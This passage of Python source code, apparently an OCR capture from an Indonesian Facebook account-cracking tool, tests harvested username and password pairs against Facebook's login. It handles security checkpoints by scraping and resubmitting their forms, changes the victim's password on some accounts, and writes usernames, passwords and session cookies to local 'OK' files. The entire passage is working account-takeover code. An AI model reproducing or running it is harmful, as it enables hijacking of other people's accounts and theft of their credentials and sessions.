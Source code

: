 	urlPost=session.post(url+link.get("action"),data=data)
	response=bs4.BeautifulSoup(urlPost.text, "html.parser")
	if "c_user" in session.cookies.get_dict():
		if "Akun Anda Dikunci" in urlPost.text:
			print("\r%s%s\033[0m Akun Terkunci Sesi New"%(M,til))
		else:
			print("\r%s%s\033[0m Akun Tidak Checkpoint, Silahkan Anda Login "%(til,H))
			open('OK/OK-%s.txt'%(waktu), 'a').write(" %s|%s\n" % (user,pw))
	elif "checkpoint" in session.cookies.get_dict():
		coki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
		title=re.findall("\<title>(.*?)<\/title>",str(response))
		link2=response.find("form",{"method":"post"})
		listInput=['fb_dtsg','jazoest','checkpoint_data','submit[Continue]','nh']
		for x in response("input"):
			if x.get("name") in listInput:
				data2.update({x.get("name"):x.get("value")})
		an=session.post(url+link2.get("action"),data=data2)
		response2=bs4.BeautifulSoup(an.text,"html.parser")
		cek=[cek.text for cek in response2.find_all("option")]
		number=0
		print("\r%s [+] %s\033[0mterdapat %s%s%s \033[0mopsi %s:"%(U,O,P,str(len(cek)),O,M));jeda(0.07)
		if(len(cek)==0):
			if "Lihat Detail Login Yang Ditampilkan. Ini Anda?" in title:
				if "ubah_sandi" in ubah_pass:
					dat,dat2={},{}
					but=["submit[Yes]","nh","fb_dtsg","jazoest","checkpoint_data"]
					for x in response("input"):
						if x.get("name") in but:
							dat.update({x.get("name"):x.get("value")})
					ubahPw=session.post(url+link2.get("action"),data=dat).text
					resUbah=bs4.BeautifulSoup(ubahPw,"html.parser")
					link3=resUbah.find("form",{"method":"post"})
					but2=["submit[Next]","nh","fb_dtsg","jazoest"]
					if "Buat Kata Sandi Baru" in re.findall("\<title>(.*?)<\/title>",str(ubahPw)):
						for b in resUbah("input"):
							dat2.update({b.get("name"):b.get("value")})
						dat2.update({"password_new":"".join(pwbaru)})
						an=session.post(url+link3.get("action"),data=dat2)
						coki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
						print("\r%s%s\033[0mAkun One Tab, Sandi Berhasil Di Ubah \n [+] OK %s%s%s|%s|%s			"%(H,til,N,H,user,pwbaru[0],coki))
						open('OK/OK-%s.txt' %(waktu), 'a').write("%s%s|%s|%s\n" % (H,user,pwbaru[0],coki))
						#cek_apk(coki)
				else:
					print("\r%s%s \033[0mAkun One Tab, Silahkan Anda Login		"%(H,til))
					open('OK/OK-%s.txt' %(waktu), 'a').write("%s %s|%s|%s\n" % (H,user,pw,coki))
					#cek_apk(coki)
			elif "Masukkan Kode Masuk untuk Melanjutkan" in re.findall("\<title>(.*?)<\/title>",str(response)):
				print("\r%s [+] \033[0mAkun Terpasang Autentikasi Dua Faktor			"%(M))
			else:
				print("%s%s\033[0mTerjadi Kesalahan"%(M,til))
		else:
			if "c_user" in session.cookies.get_dict():
				print("\r%s%s Akun Tidak Checkpoint, Silahkan Anda Login "%(H))
				open('OK/OK-%s.txt' %(waktu), 'a').write("%s%s|%s\n" % (H,user,pw))
		for opsi in range(len(cek)):
			number +=1
			jalan ("  %s%s. %s%s"%(P,str(number),K,cek[opsi]))
	elif "login_error" in str(response):
		oh = run.find("div",{"id":"login_error"}).find("div").text
		print("%s [+] %s"%(M,oh))
	else:
		print("%s [+] \033[0mLogin Gagal, Silahkan Cek Kembali Id Dan Kata Sandi"%(M))
#----------------------[ CEK-APLIKASI ]---------------------#